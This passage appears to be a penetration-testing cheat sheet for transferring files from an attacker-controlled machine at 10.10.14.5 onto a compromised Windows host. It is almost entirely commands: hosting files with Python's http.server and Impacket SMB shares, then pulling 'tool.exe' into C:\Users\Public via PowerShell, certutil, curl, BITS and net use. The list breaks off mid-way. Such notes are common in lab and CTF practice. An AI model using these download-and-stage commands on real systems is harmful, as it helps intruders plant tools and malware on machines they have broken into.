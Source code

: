 1) Host an HTTP server (attacker)
```
cd ~/transfer
python3 -m http.server 8000
# Serves files in the current directory at http://10.10.14.5:8000/
```

2) Pull via PowerShell (modern, reliable)
- PowerShell 3+:
```
powershell -NoProfile -Command "Invoke-WebRequest -Uri http://10.10.14.5:8000/tool.exe -OutFile C:\Users\Public\tool.exe"
```
- Compatibility (older PowerShell v2):
```
powershell -NoProfile -Command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.5:8000/tool.exe','C:\Users\Public\tool.exe')"
```
- If needed for older hosts (Server 2012/Win7), add:
```
powershell -NoProfile -Command "Invoke-WebRequest -UseBasicParsing -Uri http://10.10.14.5:8000/tool.exe -OutFile C:\Users\Public\tool.exe"
```

3) Pull via certutil (builtin, very common)
```
certutil -urlcache -f http://10.10.14.5:8000/tool.exe C:\Users\Public\tool.exe
```

4) Pull via curl (Windows 10+)
```
curl http://10.10.14.5:8000/tool.exe -o C:\Users\Public\tool.exe
```

5) Pull via BITS
- PowerShell:
```
powershell -NoProfile -Command "Start-BitsTransfer -Source http://10.10.14.5:8000/tool.exe -Destination C:\Users\Public\tool.exe"
```
- bitsadmin (deprecated but often available):
```
bitsadmin /transfer myJob /download /priority foreground http://10.10.14.5:8000/tool.exe C:\Users\Public\tool.exe
```

6) Host an SMB share (attacker)
- Option A: No-auth share (works best on older hosts; modern Windows may require auth):
```
sudo impacket-smbserver -smb2support SHARE /tmp/share
# Place tool.exe in /tmp/share
```
- Option B: Authenticated share:
```
sudo impacket-smbserver -smb2support -username shareuser -password 'Passw0rd!' SHARE /tmp/share
```

7) Pull via SMB (Windows)
- Map and copy (no-auth share):
```
net use Z: \\10.10.14.5\SHARE
copy Z:\tool.exe C:\Users\Public\tool.exe
net use Z: /delete
```
- Map with credentials:
```
net use Z: \\10.10.14.5\SHARE /user:shareuser Passw0rd!
copy Z:\tool.exe C:\Users\Public\
net use Z: /delete
```
- Or copy directly via UNC without mapping: